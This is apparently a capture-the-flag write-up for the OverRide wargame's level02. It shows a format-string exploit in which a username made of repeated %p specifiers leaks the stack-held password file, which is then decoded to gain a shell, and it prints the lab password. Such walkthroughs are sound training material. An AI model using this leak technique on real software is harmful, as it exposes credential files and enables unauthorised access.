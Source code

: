 after analysis from source code, we can see, he execute /bin/sh only if the password are the flag.

we can see also an unprotected printf for display username, we can use it to display content of the line ``file = fopen("/home/users/level03/.pass", "r");``

first test we can test :

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

we can see 5 pointers 

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d


we convert this on ascii : unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M does not have access!

we revert pointer order before convert in ascii :

0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848

H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

we revert this string

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

we retest :

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H!
$ 
```

su level03 Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
